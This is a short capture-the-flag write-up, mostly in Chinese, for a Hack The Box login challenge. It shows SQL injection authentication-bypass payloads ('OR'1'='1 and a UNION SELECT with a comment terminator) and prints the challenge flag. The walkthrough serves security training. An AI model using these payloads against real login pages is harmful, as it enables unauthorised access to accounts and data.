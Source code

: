 # sanitize

:::note CHALLENGE DESCRIPTION

Difficulty: EASY

Can you escape the query context and log in as admin at my super secure login page?

你能突破查询限制，在我超级安全的登录页面以管理员身份登录吗？

:::

尝试直接访问

![img](img/image_20250345-214514.png)

使用 `admin:admin` 进行访问

![img](img/image_20250345-214544.png)

同时，在页面底部发现了执行查询的 sql 语句

```sql
select * from users where username = '123' AND password = '123';
```

首先，尝试使用 sqlmap 进行自动化攻击失败了，需要尝试手动注入

先分析查询语句

```sql
select * from users where username = '123' AND password = '123';
```

先尝试万能密码直接绕过

```plaintext
'OR'1'='1
```

![img](img/image_20250311-221101.png)

直接得到了 flag

```flag
HTB{SQL_1nj3ct1ng_my_w4y_0utta_h3r3}
```

可以在 `username` 进行篡改，通过闭合引号和注释对后面的语句进行转义，控制整体的 sql 查询逻辑

```plaintext
username = 'UNION SELECT * FROM users --'
password = 1

payload = select * from users where username = ''UNION SELECT * FROM users --''AND password ='1';

--> payload = select * from users where username = '' UNION SELECT * FROM users
```

结果直接返回了 flag

![img](img/image_20250317-221756.png)

不做深究，环境特性
